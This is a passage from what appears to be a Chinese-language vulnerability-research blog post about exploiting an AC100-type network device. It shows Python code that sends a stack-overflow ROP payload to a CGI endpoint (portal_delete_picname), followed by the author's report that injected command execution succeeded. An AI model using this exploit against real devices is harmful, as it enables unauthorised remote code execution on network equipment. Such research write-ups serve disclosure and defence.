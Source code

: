 ```py
	data0 += b'A' * 0x64								# stack padding

	#gadget 3
	data0 += (0x47C010).to_bytes(3, 'little')			# return
	
	data = b'{"portal_delete_picname":"' + data0 + b'"}'
	#data = b'{"portal_delete_picname":"1"}'
	print(requests.post("http://" + host + "/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file", data = data).text)

Vul4_AC100("192.168.20.101")

```

一运行，果然固件提示 `leeya_bug-hacked!`，成功运行 `echo leeya_bug-hacked!`

证明利用链构造成功

![/image/cfac100/3.png](/image/cfac100/15.png) 

本文章不遵循 CC 协议，除开特别说明标注，该文章未经许可禁止转载

# [](#header-3)rop链构造2

未更新